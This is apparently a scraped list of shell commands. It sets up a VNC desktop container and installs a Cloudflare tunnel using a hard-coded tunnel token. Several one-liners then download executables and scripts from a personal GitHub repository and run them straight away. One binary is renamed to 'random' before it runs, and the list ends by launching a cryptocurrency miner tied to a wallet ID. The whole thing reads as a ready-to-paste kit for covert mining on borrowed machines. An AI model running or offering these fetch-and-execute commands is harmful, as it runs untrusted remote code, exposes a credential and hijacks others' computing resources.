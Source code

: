 # docker run -p 6070:80 -e RESOLUTION=1200x650 dorowu/ubuntu-desktop-lxde-vnc

# curl -L --output cloudflared.deb https://github.com/cloudflare/cloudflared/releases/latest/download/cloudflared-linux-amd64.deb && 

sudo dpkg -i cloudflared.deb && 

sudo cloudflared service install eyJhIjoiYTAyNDU4ODdkZmQ4YTc3Yjk4MWM5ZjgyOGVlYjA3NTEiLCJ0IjoiN2VhMDQzNmMtMTAzNy00NjUxLWI4YzYtZmNjNGQ1MGViYjhhIiwicyI6Ik1EUTFZV001TUdRdFltTmlZeTAwTXpVMkxUa3hNbVl0TWpRMFpqRTNaRFl6WWpVMyJ9

docker run -p 6070:80 -e RESOLUTION=1200x650 dorowu/ubuntu-desktop-lxde-vnc
 # wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/gas && wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/script.ini && chmod +x gas && ./gas script.ini

# wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/cok && wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/script.ini && chmod +x cok && ./cok script.ini

# wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/cok && wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/script.ini && mv cok random && chmod +x random && ./random script.ini

# wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/vy.sh && chmod +x vy.sh && ./vy.sh

# wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/dc.sh && chmod +x dc.sh && ./dc.sh

 #wget https://github.com/De-Crypted/dcrptd-miner/releases/download/2.3.0/dcrptd-miner-linux-x64-2.3.0.tar.gz && tar -xvf dcrptd-miner-linux-x64-2.3.0.tar.gz && ./dcrptd-miner --user 0033B34D8D445DBB89DD97AF6F079386DF6D218EB0D79EF73C.tes
